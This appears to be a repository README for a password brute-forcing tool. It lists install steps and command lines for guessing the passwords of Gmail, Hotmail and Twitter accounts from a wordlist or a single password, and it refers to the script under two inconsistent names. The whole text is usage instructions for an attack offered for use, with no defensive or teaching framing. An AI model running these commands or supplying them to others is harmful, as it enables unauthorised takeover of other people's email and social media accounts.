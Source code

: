 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

# install :

pip install proxylist
pip install mechanize


Usage:

# Bruteforce Gmail 

python3 Brutoforce.py -g Account@gmail.com -l File_list
python3 Brutoforce.py -g Account@gmail.com -p Password_Single


# Bruteforce Hotmail
 
python3 Brute_force.py -t Account@hotmail.com -l File_list
python3 Brute_force.py -t Account@hotmail.com -p Password_Single


# Bruteforce Twitter

python3 Brutoforce.py -T Account_Twitter -l File_list
